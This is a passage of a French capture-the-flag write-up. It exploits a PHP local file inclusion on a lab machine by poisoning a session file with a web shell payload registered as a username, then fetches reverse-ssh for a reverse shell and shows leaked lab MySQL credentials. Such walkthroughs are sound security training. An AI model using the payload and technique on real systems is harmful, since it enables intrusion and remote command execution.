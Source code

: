 On peut connaître le chemin de ces fichiers en chargeant le fichier de configuration d'Apache (`/opt/bitnami/apache2/conf/httpd.conf`) que l'on aura déduit à partir du phpinfo.

Dans mon cas c'est un peu raté car à force de bourriner avec `feroxbuster` et `Wapiti` le chargement des logs provoque une erreur 500, les requêtes ont du mettre les fichiers en vrac.

Une autre technique consiste à charger le fichier de session PHP stocké sur le serveur. Son nom a généralement un prefixe `sess_` suivi de l'identifiant `PHPSESSID`. Le path des sessions est indiqué dans le phpinfo. On final je n'ai qu'à charger le fichier suivant :

`/opt/bitnami/php/tmp/sess_q1raqsm48b1g4u94cie9j4b6r3`

Et j'obtiens cet output :

`loggedin|b:1;id|i:1;email|s:19:"admin@cybox.company";name|s:5:"Admin";rank|i:1;`

On voit que la session porte à la fois le nom d'utilisateur et l'adresse email de l'utilisateur. Par conséquent je créé un autre compte sur `Monitor` depuis un autre navigateur dont le nom d'utilisateur sera `<?php system($_GET['cmd']); ?>`.

Quan je charge le fichier de session correspondant le PHP est interprété et je peux spécifier la commande à exécuter (ici avec `id`) :

`loggedin|b:1;id|i:7;email|s:21:"devloop@cybox.company";name|s:30:"uid=1(daemon) gid=1(daemon) groups=1(daemon) ";rank|i:0;`

La commande `uname` montre que le système est 32 bits :

`Linux cybox 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:01:15 UTC 2019 i686 i686 i686 GNU/Linux`

Je rappatrie donc un reverse-ssh x86. Les règles egress semblent bloquer les ports hauts mais en écoutant sur le port 80 j'obtiens mon reverse shell.

J'attéris dans le dossier contenant le script vulnérable :

```php
<?php
session_start();

if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true || $_SESSION["rank"] == 0){
    header("Location: ../login.php");
    exit;
}

include("styles/".$_GET['style'].".css");
?>
```

Je trouve aussi des identifiants MySQL mais ceux-çi ne semblent pas utiles :

```php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'tufl1yK1QnZDjULV5JjN');
define('DB_NAME', 'monitor');
```

Au moins mes privilèges courant permettent l'accès au premier flag :
